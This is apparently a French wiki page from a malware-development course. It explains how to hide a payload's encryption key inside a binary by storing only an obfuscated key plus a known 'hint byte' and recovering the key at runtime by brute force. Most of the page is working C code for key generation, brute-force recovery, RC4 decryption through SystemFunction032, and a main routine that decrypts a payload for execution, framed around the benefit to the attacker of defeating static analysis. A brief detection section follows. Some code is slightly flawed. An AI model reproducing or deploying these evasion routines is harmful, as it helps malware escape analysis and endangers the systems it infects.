


# Déchiffrement par force brute

Le [[Chiffrement du payload]] protège le code malveillant tant qu'il réside sur le disque, mais introduit une contrainte gênante : il faut bien, tôt ou tard, déchiffrer le payload à l'exécution, donc disposer de la clé. La placer en clair dans le binaire revient à la donner à l'analyste, qui peut l'extraire par simple analyse statique. Chiffrer la clé avec une seconde clé déplace le problème sans le résoudre, puisque cette seconde clé doit elle aussi être stockée.

La solution présentée ici est différente : la clé n'est pas stockée du tout, elle est **devinée**. On stocke uniquement sa forme chiffrée, plus un indice minimal — un seul octet connu — qui rend la clé retrouvable par force brute au moment de l'exécution.

## Principe de l'octet indice

La clé de chiffrement est une clé de même taille que celle générée, et sa valeur est absente du binaire. Pour la retrouver, il faut une contrainte vérifiable. L'astuce consiste à fixer la valeur du **premier octet de la clé en clair**, appelé octet indice, et à le placer en tête de la clé avant de la chiffrer.

L'exemple canonique : si l'octet indice vaut `0xBA` et que le premier octet après chiffrement vaut `0x71`, alors le déchiffreur essaie des clés candidates jusqu'à ce que `0x71` redevienne `0xBA`. La valeur de la clé qui produit ce résultat est la bonne.



Comme l'algorithme est un XOR sur un seul octet, l'espace de recherche se limite à 256 valeurs : la boucle converge en quelques itérations, mais le résultat n'est pas lisible directement dans le binaire.

## Génération de la clé protégée

La fonction de génération construit d'abord la clé en clair (premier octet = indice, le reste aléatoire), puis la chiffre avec une clé `b` tirée au hasard et jamais conservée.

Le chiffrement combine un décalage dépendant de la position (`+ i`) et un XOR avec `b`, ce qui diversifie les octets et évite qu'une simple répétition de la clé ne se voie dans le binaire.

```c
VOID GenerateProtectedKey(IN BYTE HintByte, IN SIZE_T sKey, OUT PBYTE* ppProtectedKey) {

  srand(time(NULL));

  // 'b' est la clé du chiffrement de la clé
  BYTE b = rand() % 0xFF;

  PBYTE pKey          = (PBYTE)malloc(sKey);
  PBYTE pProtectedKey = (PBYTE)malloc(sKey);

  if (!pKey || !pProtectedKey)
    return;

  srand(time(NULL) * 2);

  // La clé commence par l'octet indice
  pKey[0] = HintByte;
  for (int i = 1; i < sKey; i++) {
    pKey[i] = (BYTE)rand() % 0xFF;
  }

  // Chiffrement XOR avec décalage positionnel
  for (int i = 0; i < sKey; i++) {
    pProtectedKey[i] = (BYTE)((pKey[i] + i) ^ b);
  }

  *ppProtectedKey = pProtectedKey;

  free(pKey);
}
```

Seule `pProtectedKey` est conservée : elle est intégrée en dur dans l'implémentation. Ni `pKey`, ni `b` ne survivent à la génération.

## Retrouver la clé à l'exécution

Le déchiffreur applique la logique inverse. Il balaye les 256 valeurs possibles de `b`, teste à chaque itération si le premier octet déchiffré correspond à l'indice, puis déroule l'algorithme inverse sur toute la clé.

```c
BYTE BruteForceDecryption(IN BYTE HintByte, IN PBYTE pProtectedKey, IN SIZE_T sKey, OUT PBYTE* ppRealKey) {

  BYTE  b        = 0;
  PBYTE pRealKey = (PBYTE)malloc(sKey);

  if (!pRealKey)
    return NULL;

  while (1) {
    // Comparaison sur le premier octet, ramené à l'indice connu
    if (((pProtectedKey[0] ^ b) - 0) == HintByte)
      break;
    else
      b++;
  }

  // Algorithme inverse du chiffrement, 'b' désormais connu
  for (int i = 0; i < sKey; i++) {
    pRealKey[i] = (BYTE)((pProtectedKey[i] ^ b) - i);
  }

  *ppRealKey = pRealKey;

  return b;
}
```

L'octet indice doit impérativement être identique à celui utilisé à la génération : c'est la seule information nécessaire pour déverrouiller la clé, et elle est inoffensive en soi puisqu'elle ne révèle rien du reste.

## L'outil KeyGuard

KeyGuard matérialise ce mécanisme : il génère une clé, la chiffre, et produit directement le code source à intégrer.

```text
.\KeyGuard.exe 32
```

L'outil produit trois éléments :

- l'octet indice retenu (par exemple `0x88`) ;
- la clé en clair, `OriginalKey`, à conserver hors ligne pour chiffrer le payload ;
- la clé protégée, `ProtectedKey`, à intégrer dans l'implémentation.



Extrait de sortie pour une clé de 32 octets :

```c
#define HINT_BYTE 0x88

unsigned char ProtectedKey[] = {
        0xD1, 0xF6, 0x7C, 0x89, 0x71, 0x8C, 0xF2, 0x89, 0xB6, 0xFC, 0x1F, 0x07, 0xFE, 0x82, 0x56, 0x66,
        0x95, 0xD2, 0x45, 0x1B, 0x9E, 0x4A, 0xFD, 0x88, 0x7E, 0x14, 0x3A, 0x9F, 0x77, 0x50, 0x19, 0xD9 };
```

La clé en clair correspondante, à garder côté développement pour le chiffrement, est :

```c
unsigned char OriginalKey[] = {
        0x88, 0xAE, 0x23, 0xCD, 0x24, 0xD0, 0xA5, 0xC9, 0xE7, 0x9C, 0x3C, 0x53, 0x9B, 0xCE, 0x01, 0x30,
        0xBC, 0x7A, 0x0A, 0x2F, 0xB3, 0xFE, 0x8E, 0xBA, 0x0F, 0x34, 0x49, 0xAB, 0x12, 0xEC, 0x22, 0x61 };
```

## Application à un payload chiffré en RC4

Le mécanisme s'articule naturellement avec un chiffrement symétrique classique. La chaîne complète est la suivante :

| Étape | Lieu | Opération |
|---|---|---|
| 1 | Poste de développement | KeyGuard génère la clé et l'intègre sous forme protégée |
| 2 | Poste de développement | Le payload est chiffré en RC4 avec `OriginalKey` |
| 3 | Implémentation | Le payload chiffré en dur dans le binaire |
| 4 | Exécution | `BruteForceDecryption` reconstitue `OriginalKey` |
| 5 | Exécution | RC4 est relancé avec la clé reconstitue pour déchiffrer le payload |

L'étape 2 s'effectue avec `SystemFunction032`, exportée par `Advapi32.dll`, qui implémente RC4 et sert à la fois au chiffrement et au déchiffrement (l'opération est symétrique).

```c
typedef struct {
  DWORD Length;
  DWORD MaximumLength;
  PVOID Buffer;
} USTRING;

typedef NTSTATUS(NTAPI* fnSystemFunction032)(
  struct USTRING* Data,
  struct USTRING* Key
);

BOOL Rc4EncryptionViSystemFunc032(IN PBYTE pRc4Key, IN PBYTE pPayloadData,
                                  IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {

  NTSTATUS STATUS = NULL;

  USTRING Key  = { .Buffer = pRc4Key,      .Length = dwRc4KeySize, .MaximumLength = dwRc4KeySize },
          Data = { .Buffer = pPayloadData, .Length = sPayloadSize,  .MaximumLength = sPayloadSize };

  fnSystemFunction032 SystemFunction032 =
      (fnSystemFunction032)GetProcAddress(LoadLibraryA("Advapi32"), "SystemFunction032");

  if ((STATUS = SystemFunction032(&Data, &Key)) != 0x0) {
    printf("[!] SystemFunction032 FAILED With Error: 0x%0.8X \n", STATUS);
    return FALSE;
  }

  return TRUE;
}
```

À l'exécution, la clé est d'abord reconstituée, puis immédiatement utilisée pour déchiffrer le payload avant de le lancer.

```c
int main() {

  PBYTE pRealKey = NULL;

  // Reconstitution de la clé par force brute
  if (!BruteForceDecryption(HINT_BYTE, ProtectedKey, sizeof(ProtectedKey), &pRealKey))
    return -1;

  // Déchiffrement du payload avec la clé retrouvée
  if (!Rc4EncryptionViSystemFunc032(pRealKey, Rc4EncryptedPayload, sizeof(ProtectedKey),
                                    sizeof(Rc4EncryptedPayload)))
    return -1;

  /* Le payload est maintenant en clair, prêt à être exécuté */

  return 0;
}
```

Le payload chiffré occupe une place importante dans le binaire et, de ce fait, fait grimper l'entropie du fichier : les techniques de [[Réduction de l'entropie binaire]] complètent utilement ce mécanisme.

## Portée et limites

Le brute force d'une clé par octet indice n'a rien de cryptographique au sens fort : il ne s'agit pas de casser un algorithme, mais d'éviter qu'un secret soit lisible directement dans le fichier. Ses effets concrets sont les suivants.

| Conséquence | Bénéfice pour l'attaquant | Coût |
|---|---|---|
| La clé n'apparaît jamais en clair | Le vidage statique du binaire ne donne pas la clé | Aucun octet indice compromettant, mais il est nécessaire |
| Brute force en 256 itérations | Négligeable en temps d'exécution | Aucun |
| La logique est dans le code | La détection d'octet indice n'apparaît qu'au débogage | Force l'analyste à passer de l'analyse statique au débogage |

Ce dernier point est le cœur de l'intérêt de la technique. L'analyste statique qui examine le binaire voit une clé protégée et un indice, mais doit comprendre l'algorithme pour reconstituer la clé. Pour cela, il doit déboguer, ce qui place les protections de l'[[Anti-debugging]] au premier plan : plus le débogage est pénible, plus la clé reste hors de portée.

## Détection

Du côté défensif, les angles d'attaque sont bien identifiés :

- la présence simultanée d'un tableau d'octets de taille modeste, d'une constante unique isolée (l'indice) et d'une boucle courte de recherche est un motif typique ;
- une boucle de déchiffrement invoquée immédiatement avant une exécution de payload indique la reconstruction d'une clé ;
- l'appel à `SystemFunction032` suivi d'un lancement de shellcode est un enchaînement connu, détaillé dans [[Signature des binaires malware]] et [[Mécanismes de détection]] ;
- la clé déchiffrée transite forcément en mémoire en clair à un instant donné, ce qui en fait une cible pour l'inspection mémoire pendant l'exécution.
